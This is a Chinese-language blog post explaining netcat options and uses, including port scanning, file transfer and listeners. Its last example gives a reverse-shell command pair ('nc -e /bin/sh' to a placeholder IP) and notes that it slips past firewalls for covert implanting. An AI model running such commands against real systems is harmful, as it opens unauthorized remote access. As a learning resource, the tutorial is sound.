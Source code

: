 ```yaml
---
layout: post
title: Your daily dose of linux(31)
category: linux
tag : linux
---
```

<img src="/img/in-post/linux.jpg">

### nc  

nc, 也就是netcat, 可以用来快速建立读写tcp, udp链接的工具, 既可以监听, 也可以做server来连接端口(比如类似telnet的作用)  

命令参数:  
>-d, 后台模式运行  
>-e, 重定向  
>-h, 查看帮助信息  
>-i [secs], 延时设置, 秒为单位  
>-l, 监听端口信息  
>-p, 打开本地端口  
>-u, udp模式  
>-v, 详细信息模式 vv会更加详细  
>-w, 建立时间连接  
>-z, I/O模式, 扫描信息  

命令用例:  
1.扫描端口 ip port范围    
*nc -nv 127.0.0.1 1-1000*  

2.连接到目标  
*nc -l 127.0.0.1 9999* 服务器端  
*nc 127.0.0.1 9999* 客户端  
`这样就建立了一个最简单的socket模型 可以互相传输文本信息`  

3.传输文件, 类似的, 通过重定向stdio, stdout也可以用来传输文件  
*nc -l 127.0.0.1 9999 < test.txt* 服务器端  
*nc 127.0.0.1 9999 < test1.txt* 客户端  

4.扫描时添加时间限制, 到时后断开  
*nc -nv 127.0.0.1 80 -w 3*  
`扫描3s后断开`  

5.强制nc服务器保持启动状态  
*nc -k -l 127.0.0.1 9999*  
`客户端退出后, 服务器端并不终止`  

6.作为蜜罐, 作为server时监听某端口, 就可以看到此端口接受的请求, 更可以重定向这些到某个log, 以便分析  
*nc -l 127.0.0.1 80 > test.log*  

7.反弹shell  
本地执行 *nc -l –vv -p 2012* 远程执行 *nc -e /bin/sh {your ip} 2012* 这样shell就被反弹的本地机器, 因为主机主动发送的情况本地防火墙等设备一般不会拦截, 所以后台可以这样来植入  








